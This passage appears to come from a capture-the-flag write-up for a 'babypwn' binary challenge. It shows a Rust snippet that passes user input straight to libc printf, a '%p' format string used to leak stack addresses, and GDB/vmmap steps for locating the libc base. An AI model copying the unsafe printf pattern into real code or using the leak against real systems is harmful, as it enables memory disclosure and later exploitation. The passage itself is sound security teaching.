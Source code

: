 Luckily for us, there is an improper usage of the `printf()` function that will allow us to leak addresses from the stack:

```rust
// ...
let text = [0 as libc::c_char; 64].as_mut_ptr();
libc::fgets(text, 64, libc_stdhandle::stdin());
libc::printf("Hi, \0".as_ptr() as *const libc::c_char);
libc::printf(text); // <-- Improper usage of 'printf()'
// ...
```

Exactly why this usage of `printf()` is exploitable is beyond the scope of this writeup but if you would like to read more about you can check this blog for a writeup on format string vulnerabilities or visit [here](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/#:~:text=A%20format%20string%20vulnerability%20is,the%20format%20argument%20to%20printf%20.) for a quick explanation and example. 

We can test this vulnerability by giving format specifiers instead of our name for the first input to the program:

![](/images/Pasted%20image%2020220814121936.png)
_Fig. 3 - Leaking addresses_

Excellent! Now that we have a way to leak memory addresses from the stack we should take a look at what these addresses are for. 

Using _GDB_ along with the extension [gef](https://github.com/hugsy/gef), we can attach to the running binary and see where the leaked addresses fall within the process' memory. The easiest way to do this is to use two terminals or a multiplexer like [tmux](https://github.com/tmux/tmux/wiki). 

1. Execute the challenge binary in the first terminal: `$ ./babypwn`
2. Enter your format string: `%p %p %p %p` (_make sure to hit enter and see the leaked addresses_)
4. Attach to the challenge binary in the second terminal: `$ sudo gdb -q -p $(pidof babypwn)`

Following the above steps should yield two terminals that look similar to the following:

![](/images/Pasted%20image%2020220814123701.png)
_Fig. 4 - Attaching to challenge binary_

Looks good! In order to determine where these leaked addresses live we can use the `vmmap` command (_or `info proc mappings`_). These commands will show us where everything for the process is mapped in memory. 

Looking closely we see that the first _non-zero_ address that we leaked (`0x7f4abd693bc0`) lives in the section just before the base of Libc:

```
[...]
0x0055b443fa0000 0x0055b443fa1000 0x00000000368000 rw- /home/onenutw0nder/dev/ctf/cor_2022/babypwn_pwn/babypwn
0x0055b4442a8000 0x0055b4442c9000 0x00000000000000 rw- [heap]
0x007f4abd693000 0x007f4abd695000 0x00000000000000 rw-                                                             <<------- LEAKED ADDRESS LIVES HERE!
0x007f4abd695000 0x007f4abd6b7000 0x00000000000000 r-- /home/onenutw0nder/dev/ctf/cor_2022/babypwn_pwn/libc.so.6   <<------- LIBC BASE ADDRESS!
0x007f4abd6b7000 0x007f4abd82f000 0x00000000022000 r-x /home/onenutw0nder/dev/ctf/cor_2022/babypwn_pwn/libc.so.6
0x007f4abd82f000 0x007f4abd87d000 0x0000000019a000 r-- /home/onenutw0nder/dev/ctf/cor_2022/babypwn_pwn/libc.so.6
0x007f4abd87d000 0x007f4abd881000 0x000000001e7000 r-- /home/onenutw0nder/dev/ctf/cor_2022/babypwn_pwn/libc.so.6
0x007f4abd881000 0x007f4abd883000 0x000000001eb000 rw- /home/onenutw0nder/dev/ctf/cor_2022/babypwn_pwn/libc.so.6
0x007f4abd883000 0x007f4abd887000 0x00000000000000 rw- 
[...]
```
